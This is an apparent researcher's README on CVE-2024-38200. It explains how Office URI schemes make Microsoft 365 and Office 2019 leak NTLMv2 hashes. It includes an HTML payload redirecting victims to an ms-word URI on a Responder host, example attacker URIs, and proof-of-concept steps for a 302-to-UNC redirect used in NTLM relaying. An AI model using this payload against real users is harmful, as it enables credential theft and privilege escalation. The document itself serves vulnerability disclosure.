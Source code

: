 # CVE-2024-38200
## Office URI Schemes
Previously, a method for capturing NTLMv2 hashes over SMB using the Office URI Schemes was shared.  The main idea was simple. Send the URL of below HTML file to victim and capture NTLMv2 hash over SMB. [LINK](https://www.securify.nl/blog/living-off-the-land-stealing-netntlm-hashes/) <br>
```
<!DOCTYPE html>
<html>
	<script>
		location.href = 'ms-word:ofe|u|\\<responder ip>\leak\leak.docx';
	</script>
</html>
```

 This is the inspiring point for me. If we look [Office URI Schemes](https://learn.microsoft.com/en-us/office/client-developer/office-uri-schemes) page, we can see that usage of `https://` protocol within URI scheme. This situation indicates that `http://` can also potentially be used. Capturing the NTLMv2 hash over HTTP is more advantageous than capturing it over SMB for performing NTLM Relaying attack against a Domain Controller server [Relaying Chart](https://www.thehacker.recipes/a-d/movement/ntlm/relay). <br>
When I used `ms-word:ofe|u|http://test.local:8080/leak/leak.docx` URI against the `Office 2016 MSO (16.0.4266.1001) 32-bit` , a warning box appeared to protect user from malicious activity but I can not say same for `Microsoft 365 Office and Office 2019`. These versions access a remote Office file without a warning and can be exploited to capture NTLMv2 hash over SMB and HTTP protocols.

![warningbox](https://github.com/user-attachments/assets/04d49a16-3899-45b7-bcc0-6dd7802c7be9)


## Vulnerability Details
We can redirect an HTTP request to a UNC path with 302 redirection when an Office application makes a request via Office URI schemes `(e.g., ms-word:ofe|u|http://172.20.10.8:8080/leak.docx)` . The `uncredirect.py` script handles the HTTP request which is sent with a MS Office URI schema and redirect it to a UNC path which includes IP address of `Responder`. This situation would make it possible to capture the NTLMv2 hash over SMB and bypass the security restriction for `ms-word:ofe|u|\\<responder ip>\leak\leak.docx` URI.


![officeuriwithunc](https://github.com/user-attachments/assets/7afce34b-6f64-469e-b7dc-31f3b17a9166)


## Proof Of Concept
1. Fire up `uncredirect.py` and `responder`.
2. Send the URL of the `office.html` file to the victim user.

https://github.com/user-attachments/assets/1481537e-d8a1-40b0-86a2-a367ffc16d67

# Capturing the NTLMv2 hash over HTTP
Capturing the NTLMv2 hash over HTTP is more advantageous than over SMB for relaying LDAP. When a file is requested via an Office URI, the NTLMv2 hash can be obtained over HTTP without redirecting to a UNC path using a 302 redirect. This exploitation method cannot be performed over the Internet because, unless there is a misconfiguration in Internet Properties, NTLM authentication will not occur over HTTP for a host outside the corporate network. <br>
However, I believe this is an effective method for relaying attack and escalating privileges.
